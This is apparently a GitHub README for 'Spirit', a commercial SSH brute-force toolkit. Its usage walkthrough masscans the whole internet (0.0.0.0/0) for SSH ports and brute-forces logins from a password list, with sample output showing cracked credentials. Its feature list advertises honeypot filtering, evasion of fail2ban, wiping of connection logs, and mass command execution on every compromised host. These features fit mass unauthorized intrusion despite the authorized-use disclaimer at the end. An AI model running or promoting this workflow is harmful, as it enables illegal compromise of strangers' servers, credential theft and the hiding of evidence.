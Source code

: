 # Spirit - Pentest Tools

Check out the helpfile [`$ ./spirit --help`](./HELP) to see the whole toolset.

## Example usage for SSH brute
```bash
# make sure your masscan command uses -oG open.lst for the results output file
$ masscan \
    --rate="50000" \
    --ports "22,222,2222,2212" 0.0.0.0/0 \
    --exclude 255.255.255.255 \
    -oG open.lst
Scanning 4294967295 hosts [4 ports/host]

$ ./spirit parse open.lst
INFO created h.lst in HOST:PORT format

$ ./spirit banner
SSH-2.0-OpenSSH_8.2p  13% [=>                  ] [11s:1m15s]
INFO created b.lst in HOST:PORT:BANNER format

$ mv b.lst h.lst

# add passwords list
$ cat > p.lst << EOF
user1:pass1
user1:pass2
user2:pass50
EOF

$ ./spirit brute
INFO loaded h.lst with 26803 hosts
INFO loaded p.lst with 4881 logins
[2478/4653]root:!1qwerty [77]found [33]blocked [1284]threads 20% [====>               ] [20s:1h13m36s]
$ less -S found.lst
```

> Tip: you can automate these steps with `./spirit auto` or use the [`./go.sh`](./go.sh) script.

## Download the latest Spirit release
- wget https://github.com/theaog/spirit/raw/master/spirit.tgz
- curl -OL https://github.com/theaog/spirit/raw/master/spirit.tgz

## aarch64 (ARM), mips
- wget https://github.com/theaog/spirit/raw/master/spirit-arm.tgz
- wget https://github.com/theaog/spirit/raw/master/spirit-mips.tgz

## Upgrade Spirit automaticaly
```bash
./spirit upgrade
Upgrading 87% [========================>     ] (5.9/5.9 MB, 49.652 MB/s)
```
>*Spirit can self-upgrade only on amd64 aka x86-64 for now. [`donate to speed things up`](#monero-xmr-thank-you)

## Spirit is Free (sorta)
For `local IP` (10/172/192) ranges and up to 1,000 `public IPs`

If you need to pen-test more than 1,000 public IP or need Pro features we charge a small fee to help us support the project development. Use `./spirit buy` to upgrade.

## Spirit Pro
Buy a Spirit Pro license directly from the CLI `./spirit buy`

Every license helps support our development and server costs.

If you want to try a Pro feature, ask for a free Pro trial license.

## Key Features
- extracts SSH banners accurately and fast
- brute multiple ports at once
- brute using private keys
- filter out honeypots
- block hosts that are unreachable, filter your IP, have fail2ban, and so forth (less dull work, faster completion)
- tries every connection twice before blocking to increase accuracy
- set your optimal timeout and concurrent threads for banner and brute
- very light on server load (CPU) and memory
- connect to all your found hosts concurrently, upload files, execute commands: `./spirit omni -c 'uptime'`
- automatically cleans connection logs (if uid0) or use `./spirit zap` to clean manually
- masscan whole countries automatically `./spirit ms --country ir`
- continously scan your network on random ports `./spirit forever --help` and spot vulnerabilities before they happen
- and more... check out all the spirit tools! [`$ ./spirit --help`](./HELP)
> every tool has it's own helpfile, e.g. `./spirit ms --help`

# Support the Develpoment of the Spirit toolkit!
## Monero (XMR) thank you! (our favorite)
`8B81sxCMzoYc1cEu3EbHDfdCmtcooNtKp3sba9tGEpprM5PvADwXk76BFRRmuAUL2efvjm3Rp8uWHU5EULAPEbJGKoZ1x67`

## Bitcoin (BTC) thank you too!
`bc1q7plm79dgllrhrjz772x4vjrtvu9yy03738psy5`

## Get Help & Support
Open a Github [issue](https://github.com/theaog/spirit/issues)

Don't forget to give us a Star!

# Disclaimer

This tool should be used for authorized penetration testing and/or educational purposes only.
Any misuse of this software will not be the responsibility of the author or of any other collaborator.
Use it on your own systems and/or with the system owner's permission.

Usage of any tools in this repository for attacking targets without prior mutual consent is illegal.
It is the end user’s responsibility to obey all applicable local, state and federal laws.
We assume no liability and are not responsible for any misuse or damage caused.
